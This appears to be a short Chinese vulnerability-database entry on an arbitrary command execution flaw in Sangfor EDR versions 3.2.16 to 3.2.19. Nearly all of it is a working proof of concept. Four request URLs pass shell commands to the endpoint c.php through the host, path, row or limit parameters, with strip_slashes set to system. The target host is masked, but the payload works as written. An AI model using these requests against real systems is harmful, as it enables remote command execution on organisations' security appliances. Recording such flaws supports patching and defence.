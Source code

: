```yaml
---
title: '深信服EDR任意命令执行漏洞'
date: Fri, 04 Sep 2020 05:26:04 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EDR 3.2.16、3.2.17、3.2.19

### 漏洞POC

参数host/path/row/limit=命令 即可执行命令

```
https://*****/tool/log/c.php?strip_slashes=system&host=id
https://*****/tool/log/c.php?strip_slashes=system&path=id
https://*****/tool/log/c.php?strip_slashes=system&row=id
https://*****/tool/log/c.php?strip_slashes=system&limit=id
```